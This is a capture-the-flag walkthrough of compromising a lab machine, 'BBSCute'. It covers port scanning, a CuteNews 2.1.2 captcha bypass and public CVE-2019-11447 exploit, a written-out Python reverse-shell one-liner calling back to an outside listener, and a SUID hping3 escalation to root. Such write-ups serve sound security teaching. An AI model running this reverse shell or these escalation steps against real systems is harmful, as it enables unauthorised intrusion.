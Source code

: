 # BBSCute

## Nmap

```
sudo nmap   192.168.120.128 -p- -sS -sV                                      

22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
88/tcp  open  http     nginx 1.14.2
110/tcp open  pop3     Courier pop3d
995/tcp open  ssl/pop3 Courier pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to port 80 in the browser lands us on the default install page for Apache.

![](<../../../.gitbook/assets/image (1112).png>)

Running `dirsearch.py` against the target web servers reveals index.php

```
python3 dirsearch.py -u http://192.168.120.128 -w /usr/share/seclists/Discovery/Web-Content/common.txt -r -t 60 --full-url
```

![](<../../../.gitbook/assets/image (1113).png>)

Index.php takes us to the login page for CuteNews. I tried some default credentials and was unable to access the system.

![](<../../../.gitbook/assets/image (1114).png>)

Instead we can register ourselves as a new user to access. On the register new user page we are not able to load the captcha which stops us from proceeding:

![/index.php?register](<../../../.gitbook/assets/image (1116).png>)

Reviewing the source of this page shows we do have a link for captcha.php.

![](<../../../.gitbook/assets/image (1117).png>)

Viewing this will show what the current captcha should be.

![/captcha.php](<../../../.gitbook/assets/image (1118).png>)

Entering this into the registration field will allow us to proceed with new user creation.

![](<../../../.gitbook/assets/image (1119) (1).png>)

We can see that we are running CuteNews 2.1.2 as per the footer of the page. Searching for exploits with `searchsploit` shows the results below.

![](<../../../.gitbook/assets/image (1120) (1).png>)

Searching further on Google for exploits we come across a PoC on GitHub located here: [https://github.com/CRFSlick/CVE-2019-11447-POC](https://github.com/CRFSlick/CVE-2019-11447-POC).

Download the python script and the `sad.gif` files to the same directory. Run with the syntax shown below.

```
python3 <User> <Pass> http://192.168.120.128/index.php
```

![](<../../../.gitbook/assets/image (1121).png>)

We can now run the following command to get a more usable reverse shell on a different listener:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.120",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

![](<../../../.gitbook/assets/image (1122).png>)

From here I uploaded `linpeas` which after executing identified the binary hping3 as having a SUID bit set. Meaning we can execute the binary with root permissions.

![](<../../../.gitbook/assets/image (1123).png>)

Then as per [GTFOBins](https://gtfobins.github.io/gtfobins/hping3/) we can executed with the SUID bit to gain a root shell.

![](<../../../.gitbook/assets/image (1124).png>)

```
/usr/sbin/hping3
/bin/sh -p

OR

./hping3
/bin/sh -p
```

![](<../../../.gitbook/assets/image (1125).png>)
